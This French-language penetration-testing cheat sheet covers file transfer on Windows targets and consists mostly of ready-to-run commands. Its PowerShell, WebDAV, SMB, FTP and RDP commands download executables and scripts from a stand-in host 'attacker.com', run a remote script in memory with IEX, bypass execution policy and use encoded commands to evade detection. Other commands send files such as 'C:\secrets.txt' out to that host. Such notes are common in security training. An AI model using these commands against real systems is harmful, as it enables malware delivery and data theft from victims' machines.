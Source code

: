 # Transferts de Fichiers dans les Environnements Windows

## PowerShell - Téléchargement

PowerShell offre plusieurs méthodes pour télécharger des fichiers, fonctionnant même dans des versions restrictives.

### System.Net.WebClient

```powershell
# Téléchargement de fichier
(New-Object Net.WebClient).DownloadFile('http://attacker.com/file.exe', 'C:\Users\Public\file.exe')

# Téléchargement asynchrone
(New-Object Net.WebClient).DownloadFileAsync('http://attacker.com/file.exe', 'C:\Users\Public\file.exe')

# Contenu en mémoire
$content = (New-Object Net.WebClient).DownloadString('http://attacker.com/script.ps1')
```

### Invoke-WebRequest (PowerShell 3.0+)

```powershell
# Téléchargement standard
Invoke-WebRequest -Uri "http://attacker.com/file.exe" -OutFile "C:\Users\Public\file.exe"

# Avec contournement d'IE
Invoke-WebRequest -Uri "http://attacker.com/file.exe" -OutFile "C:\Users\Public\file.exe" -UseBasicParsing
```

### Contournement des Restrictions

```powershell
# Contournement de la politique d'exécution
PowerShell -ExecutionPolicy Bypass -File script.ps1

# Encodage de commande pour contourner la détection
powershell -enc [BASE64_ENCODED_COMMAND]
```

## PowerShell - Envoi de Fichiers

### Envoi vers un serveur Web

```powershell
# Encodage et envoi via POST
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\file.exe' -Encoding Byte))
Invoke-WebRequest -Uri "http://attacker.com/" -Method POST -Body $b64
```

### Utilisation d'un module d'envoi

```powershell
# Avec le module PSUpload
IEX(New-Object Net.WebClient).DownloadString('http://attacker.com/PSUpload.ps1')
Invoke-FileUpload -Uri "http://attacker.com/upload" -File "C:\file.exe"
```

## SMB pour Transferts de Fichiers

### WebDAV (SMB sur HTTP)

```powershell
# Sur la machine attaquante (Linux)
sudo pip3 install wsgidav cheroot
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous

# Sur la machine Windows cible
dir \\attacker.com\DavWWWRoot\
copy C:\secrets.txt \\attacker.com\DavWWWRoot\
```

### Montage de Partages SMB

```powershell
# Création d'un partage SMB authentifié
net use Z: \\attacker.com\share /user:username password

# Copie de fichiers
copy C:\secrets.txt Z:\
```

## FTP pour Transferts de Fichiers

```powershell
# Utilisateur .NET WebClient
(New-Object Net.WebClient).UploadFile('ftp://attacker.com/upload', 'C:\secrets.txt')

# Avec la commande FTP et un script
echo open attacker.com > ftpcmd.txt
echo USER anonymous >> ftpcmd.txt
echo binary >> ftpcmd.txt
echo PUT C:\secrets.txt >> ftpcmd.txt
echo bye >> ftpcmd.txt
ftp -s:ftpcmd.txt
```

## Transferts via RDP

```
# Montage de dossier local dans RDP (depuis Linux)
xfreerdp /v:target.com /u:username /p:password /drive:share,/path/to/local/folder

# Accès depuis Windows
\\tsclient\share\
```

## Points Importants

- Vérifier d'abord les méthodes les plus simples (PowerShell)
- En cas de restrictions, utiliser des alternatives comme SMB ou FTP
- Considérer l'utilisation de RDP pour les transferts simples si déjà connecté
- Faire attention aux erreurs comme Internet Explorer non configuré dans PowerShell
- Toujours vérifier l'intégrité des fichiers après le transfert